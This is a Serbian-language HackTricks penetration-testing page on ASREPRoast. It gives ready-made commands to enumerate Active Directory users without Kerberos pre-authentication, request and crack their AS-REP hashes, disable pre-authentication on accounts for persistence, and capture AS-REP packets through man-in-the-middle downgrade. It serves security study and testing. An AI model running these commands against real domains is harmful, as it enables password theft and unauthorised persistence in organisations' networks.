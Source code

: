 # ASREPRoast

## ASREPRoast

ASREPRoast je sigurnosni napad koji iskorišćava korisnike koji nemaju atribut **Kerberos pre-authentication required**. U osnovi, ova ranjivost omogućava napadačima da zatraže autentikaciju za korisnika od kontrolera domena (DC) bez potrebe za korisnikovom lozinkom. DC zatim odgovara porukom koja je šifrovana ključem izvedenim iz korisnikove lozinke, koju napadači mogu pokušati da dešifruju offline kako bi otkrili korisnikovu lozinku.

Glavni zahtevi za ovaj napad su:

* **Odsustvo Kerberos pre-authentication-a**: Ciljni korisnici moraju imati ovu sigurnosnu funkciju onemogućenu.
* **Povezivanje sa kontrolerom domena (DC)**: Napadači moraju imati pristup DC-u kako bi slali zahteve i primili šifrovane poruke.
* **Opcioni nalog domena**: Imajući nalog domena omogućava napadačima efikasnije identifikovanje ranjivih korisnika putem LDAP upita. Bez takvog naloga, napadači moraju nagađati korisnička imena.

**Enumeracija ranjivih korisnika (potrebne su akreditacije domena)**

{% code title="Korišćenje Windows-a" %}
```bash
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```
{% endcode %}

{% code title="Korišćenje Linux-a" %}
```
```
{% endcode %}

```bash
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```

**Zahtevaj AS\_REP poruku**

{% code title="Korišćenje Linuxa" %}
```bash
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
{% endcode %}

{% code title="Korišćenje Windows-a" %}
```bash
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```
{% endcode %}

{% hint style="warning" %}
AS-REP prženje sa Rubeusom će generisati 4768 sa vrstom šifrovanja 0x17 i vrstom preautentikacije 0.
{% endhint %}

#### Krekovanje

```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```

#### Upornost

Prisilite **preauth** da nije potreban za korisnika za koga imate dozvole **GenericAll** (ili dozvole za pisanje svojstava):

{% code title="Korišćenje Windows-a" %}
```bash
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
{% endcode %}

{% code title="Korišćenje Linux-a" %}
```
```
{% endcode %}

\`\`\`bash bloodyAD -u user -p 'totoTOTOtoto1234\*' -d crash.lab --host 10.100.10.5 add uac -f DONT\_REQ\_PREAUTH \`\`\` ## ASREProast bez pristupnih podataka Napadač može koristiti poziciju čoveka u sredini da uhvati AS-REP pakete dok prolaze kroz mrežu bez oslanjanja na onemogućenu Kerberos preautentikaciju. Stoga ova tehnika funkcioniše za sve korisnike na VLAN-u.\
\[ASRepCatcher]\(https://github.com/Yaxxine7/ASRepCatcher) nam omogućava da to uradimo. Štaviše, alat prisiljava klijentske radne stanice da koriste RC4 izmenom Kerberos pregovora. \`\`\`bash # Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported ASRepCatcher relay -dc $DC\_IP

## Disabling ARP spoofing, the mitm position must be obtained differently

ASRepCatcher relay -dc $DC\_IP --disable-spoofing

## Passive listening of AS-REP packets, no packet alteration

ASRepCatcher listen

```
## Reference

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

***

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Pridružite se [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) serveru kako biste komunicirali sa iskusnim hakerima i lovcima na bagove!

**Hakerski uvidi**\
Uključite se u sadržaj koji istražuje uzbuđenje i izazove hakovanja

**Vesti o hakovanju u realnom vremenu**\
Budite u toku sa brzim svetom hakovanja kroz vesti i uvide u realnom vremenu

**Poslednje najave**\
Budite informisani o najnovijim nagradama za pronalaženje bagova i važnim ažuriranjima platformi

**Pridružite nam se na** [**Discord-u**](https://discord.com/invite/N3FrSbmwdy) i počnite da sarađujete sa vrhunskim hakerima danas!

<details>

<summary><strong>Naučite hakovanje AWS-a od početnika do stručnjaka sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
```
